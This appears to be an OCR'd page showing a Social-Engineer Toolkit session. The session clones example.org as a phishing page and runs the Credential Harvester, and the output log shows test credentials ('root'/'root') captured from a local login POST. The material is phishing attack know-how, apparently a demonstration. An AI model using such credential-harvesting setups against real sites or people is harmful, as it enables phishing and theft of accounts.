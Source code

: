 ![facebook](./facebook.png)

example.org
```
set:webattack> Enter the url to clone:example.org

[*] Cloning the website: http://example.org
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
127.0.0.1 - - [12/Mar/2020 17:19:15] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: login_username=root
POSSIBLE USERNAME FIELD FOUND: login_password=root
POSSIBLE PASSWORD FIELD FOUND: login_password=root
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
```
